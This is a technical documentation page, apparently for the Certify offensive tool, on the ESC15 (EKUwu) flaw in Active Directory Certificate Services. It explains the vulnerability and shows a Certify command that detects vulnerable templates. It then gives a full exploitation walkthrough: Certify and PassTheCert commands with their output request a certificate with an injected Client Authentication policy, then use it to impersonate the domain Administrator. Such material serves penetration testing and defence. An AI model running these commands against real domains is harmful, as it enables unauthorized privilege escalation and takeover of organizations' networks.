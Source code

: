 ```yaml
---
title: 'ESC15 - EKUwu (Application Policy Injection)'
description: 'Exploit schema version 1 certificate templates to inject arbitrary application policies and bypass EKU restrictions'
icon: 'code-commit'
sidebarTitle: 'ESC15'
---
```


ESC15 is a vulnerability disclosed by [Justin Bollinger](https://www.linkedin.com/in/jcbollinger) in [this blogpost](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc), which details an insecurity in the way Active Directory Certificate Services (AD CS) handles application policy extensions in certificate requests for certificate templates with schema version 1.

<Warning>
According to the MSRC security guidance for [CVE-2024-49019 (EKUwu)](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019), the vulnerability has been **patched** in November 2024.
</Warning>

## Vulnerability Details

In unpatched environments, if a certificate template has schema version 1 and allows the requester to supply arbitrary subject details, it is possible to include a custom application policy extension with the certificate request and have it embedded into the issued certificate.

This allows an attacker to inject arbitrary application policies into certificate requests for templates whose Extended Key Usages (EKUs) does not contain a desired value, potentially allowing for the following attacks:

<Accordion title="Potential Attack Scenarios">
- **Inject the `Client Authentication` (`1.3.6.1.5.5.7.3.2`) application policy** and carry out an [ESC1](./esc1-misconfigured-client-authentication) attack.
- **Inject the `Certificate Request Agent` (`1.3.6.1.4.1.311.20.2.1`) application policy** and carry out an [ESC3](./esc3-misconfigured-certificate-request-agent) attack.
</Accordion>

## Detection

We can search for certificate templates with these conditions using the `enum-templates --filter-vulnerable` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash Command
Certify.exe enum-templates --filter-vulnerable --hide-admins
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Listing info about the enterprise certificate authority 'CORP-CA01-CA'

    ...

[*] Enabled certificate templates found using the current filter parameters:

    CA Name                               : ca01.corp.local\CORP-CA01-CA
    Template Name                         : WebServer
+   Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
+   Extended Key Usage                    : Server Authentication
+   Certificate Application Policies      : <null>
    Vulnerabilities
      ESC15                               : The template has schema version 1 and allows enrollees to supply subject.
    Permissions
      Enrollment Permissions
+       Enrollment Rights           : NT AUTHORITY\Authenticated Users   S-1-5-11
      Object Control Permissions

Certify completed in 00:00:00.6124414
```
</CodeGroup>

## Exploitation

Once we have identified a vulnerable ESC15 certificate template that our attacker-controlled user has enrollment rights for, we can request a certificate based on the template, and include a Subject Alternative Name (SAN) for a target user that we want to impersonate (e.g. `Administrator`) as well as the application policy we want to inject (e.g. `Client Authentication`).

This can be done using the `request` command from Certify. The SAN can be in either of the formats `UserPrincipalName` (`--upn`), `DnsName` (`--dns`), or `Rfc822Name` (`--email`). For environments where *Strong Certificate Mapping* is enabled, the security identifier (SID) of the target user must also be supplied with the `--sid` parameter.

<CodeGroup>
```bash Request Certificate with Injected Policy
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template WebServer --upn Administrator --sid S-1-5-21-976219687-1556195986-4104514715-500 --application-policy 1.3.6.1.5.5.7.3.2
```

```bash Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate

[*] Current user context    : CORP\lowpriv
[*] No subject name specified, using current context as subject.

[*] Template                : WebServer
[*] Subject                 : CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local
[*] Subject Alt Name(s)     : Administrator
[*] Sid Extension           : S-1-5-21-976219687-1556195986-4104514715-500
[*] Application Policies    : 1.3.6.1.5.5.7.3.2

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 1

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:03.6579609
```
</CodeGroup>

<Warning>
Unfortunately, we cannot use the issued certificate to authenticate over Kerberos PKINIT with [Rubeus](/ghostpack-docs/Rubeus-mdx/overview), as the protocol evaluates only the `Extended Key Usage` extension of an authentication certificate. However, the LDAP Schannel protocol also evaluates the `Application Policy` extension of an authentication certificate, so we can authenticate to LDAPS using [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/).
</Warning>

First, we write the issued certificate to a file (`cert.pfx`).

<CodeGroup>
```powershell Save Certificate
[IO.File]::WriteAllBytes("cert.pfx", [Convert]::FromBase64String("MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh..."))
```
</CodeGroup>

Then, we can authenticate over LDAP Schannel with `PassTheCert` and confirm that we have successfully elevated our privileges by impersonating the `Administrator` user.

<CodeGroup>
```bash Authenticate via LDAP Schannel
PassTheCert.exe --server dc01.corp.local --cert-path cert.pfx --whoami
```

```bash Output
Querying LDAP As : u:CORP\Administrator
```
</CodeGroup>